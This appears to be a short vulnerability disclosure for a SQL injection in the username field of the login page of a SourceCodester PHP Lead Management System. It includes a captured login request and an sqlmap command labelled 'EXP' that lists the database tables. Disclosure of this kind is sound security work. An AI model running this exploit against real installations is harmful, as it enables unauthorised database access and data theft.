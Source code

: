 vendor：https://www.sourcecodester.com/

download link：https://www.sourcecodester.com/php/15933/lead-management-system-php-open-source-free-download.html

Vulnerability trigger parameter: $username

The process of vulnerability discovery is as follows：

![image](https://user-images.githubusercontent.com/30823782/208321663-6b1fc949-eed0-4a49-9f2b-0cd6e9c61920.png)


sqlmap.txt:

```
POST /penglead/login.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Referer: http://192.168.152.128/penglead/login.php
Cookie: PHPSESSID=m6ttpu8qbr1raki0mnj605hpj4
Content-Length: 90
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.0 Safari/537.36
Host: 192.168.152.128
Connection: Keep-alive

login=&password=123&username=123
```

EXP:

```
sqlmap.py -r sqlmap.txt -p username --dbms=mysql -D penglead --tables
```
![image](https://user-images.githubusercontent.com/30823782/208321678-a380010e-90fc-43fc-bc40-24139c8c1ce5.png)


